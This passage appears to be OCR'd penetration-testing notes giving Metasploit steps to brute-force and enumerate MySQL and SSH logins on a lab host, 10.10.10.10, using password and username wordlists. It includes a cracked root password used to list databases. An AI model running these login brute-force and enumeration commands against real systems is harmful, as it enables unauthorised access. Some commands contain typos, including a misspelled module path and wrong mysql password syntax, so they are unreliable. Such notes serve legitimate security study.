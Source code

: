                     `set VERBOSE false`
                    
                    `run`
                    
            - MySQL
                
                MySQL - 3306
                
                1. `service postgresql start && msfconsole`
                    
                2. `workspace -a SQL_ENUM`
                    
                3. `setg RHOSTS 10.10.10.10`
                    
                4. `use auxiliary/scanner/mysql/mysql_version`
                    
                5. `use auxiliary/scanner/mysql/mysql_login`
                    
                    `set USERNAME root`
                    
                    `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
                    
                    `set VERBOSE false`
                    
                    `run root:twinkle`
                    
                6. `use auxiliary/admin/mysql/mysql_enum`
                    
                    `set USERNAME root`
                    
                    `set PASSWORD twinkle`
                    
                    `run`
                    
                7. `use auxiliary/admin/mysl/mysql_mysql`
                    
                    `set USERNAME root`
                    
                    `set PASSWORD twinkle`
                    
                    `set SQL show databases;`
                    
                    `run`
                    
                8. `use auxiliary/scanner/mysql/mysql_schema`
                    
                    `set username and password`
                    
                9. `mysql -h 10.10.10.10 -u root -p twinkle`
                    
            - SSH
                
                Secure Shell - 22
                
                1. `service postgresql start && msfconsole`
                    
                2. `workspace -a ssh_enum`
                    
                3. `setg rhosts 10.10.10.10`
                    
                4. `use auxiliary/scanner/ssh/ssh_version`
                    
                5. `use auxiliary/scanner/ssh/ssh_login`
                    
                    `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
                    